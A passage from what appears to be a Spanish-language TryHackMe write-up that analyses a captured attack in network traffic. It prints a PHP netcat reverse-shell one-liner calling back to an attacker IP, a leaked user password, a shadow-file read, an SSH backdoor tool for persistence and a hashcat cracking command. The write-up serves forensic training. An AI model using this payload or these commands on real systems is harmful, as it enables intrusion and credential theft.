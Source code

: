 Este nos mostrará más información del paquete, así como qué es lo que contenía, necesario para responder a las siguientes preguntas.

![3]

En la captura anterior se aprecia lo siguiente:
- El atacante visitó el sitio /development/upload.php (seguramente un file uploader sin protección)
- El atacante subió un archivo llamado payload.php, el cual es una reverse shell.
- Esta reverse shell contiene el siguiente código:

Código

    <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

Lo reconocemos a simple vista después de haber realizado las máquinas anteriores, es una reverse shell en un PHP. Esto responde a la pregunta número dos, que solicita el payload que el atacante usó para acceder al sistema.

Si nos dirigimos a la siguiente captura dentro del mismo stream de datos, veremos lo siguiente (para ello, en la parte inferior de la ventana veremos un par de flechas hacia arriba y hacia abajo, debemos hacer clic en la que va hacia arriba para ir a la siguiente):

![4]

En la captura anterior se observa lo siguiente:
- El atacante realizó un tratamiento de la TTY para tener un prompt más visual.
- El atacante realizó un cambio de usuario a **james** con la contraseña: *whenevernoteartinstant*
- Realizó una consulta por los permisos SUDO de dicho usuario con el comando *sudo -l*, observando que este usuario podía realizar *sudo* sin proporcionar contraseña (un error garrafal de seguridad).
- Al tener estos permisos, listo el archivo shadow, el cual recordemos, contiene los hashes de las contraseñas de acceso en Linux.

Esto responde a la pregunta tres, la cual solicita la contraseña que el atacante usó para cambiar de usuario: *whenevernoteartinstant*

Bajando en la misma captura, veremos lo siguiente:

![5]

Se trata del arhivo *shadow* el cual contiene los hashes de cinco usuarios. Además, vemos que el atacante hizo una descarga de un repositorio de GitHub llamado **SSH Backdoor**. Este último permite crear persistencia en el sistema al crear un puerto de acceso nuevo desde el cual el atacante podrá entrar cada que lo requiera, sin necesidad de comprometer nuevamente el servidor.

Esto responde a la pregunta cuatro, la cual requiere saber el nombre del programa con el cual el atacante creó persistencia en el sistema: https://github.com/NinjaJc01/ssh-backdoor

Por último, TryHackMe nos pide saber cuántas de esas cinco contraseñas hasheadas son crackeables, es decir, se pueden descifrar por medio de un ataque de fuerza bruta. Para ello, nos pide emplear el diccionario [fasttrack.txt](https://github.com/drtychai/wordlists/blob/master/fasttrack.txt)

Este procedimiento lo podemos realizar por medio de **hashcat**, simplemente dándole el tipo de hash del que se trata (1800 - SHA512 Unix), el listado de hashes y el diccionario proporcionado:

    hashcat.exe -m 1800 -a 0 hashes/shadow.txt Wordlist/fasttrack.txt

Recordemos que el -a le indica al programa que el ataque es de fuerza bruta por diccionario. Si ejecutamos el comando tal cual, es probable que no nos proporcione una salida, indicándonos que dichas credenciales ya se encuentran en el **potfile** de hashcat (es decir, ya sabe de cuáles se tratan sin necesidad de realizar el ataque). Para visualizarlas, añadimos la bandera **--show** al final del comando.
